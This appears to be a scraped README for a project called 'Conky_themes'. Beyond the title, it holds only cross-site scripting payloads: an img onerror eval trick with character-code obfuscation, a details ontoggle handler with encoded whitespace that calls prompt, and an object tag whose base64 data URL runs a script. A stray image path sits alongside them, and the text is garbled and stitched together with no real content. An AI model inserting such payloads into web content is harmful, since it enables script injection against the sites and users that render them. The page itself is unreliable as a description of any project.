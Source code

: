 <img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)># Conky_themes
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>

<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
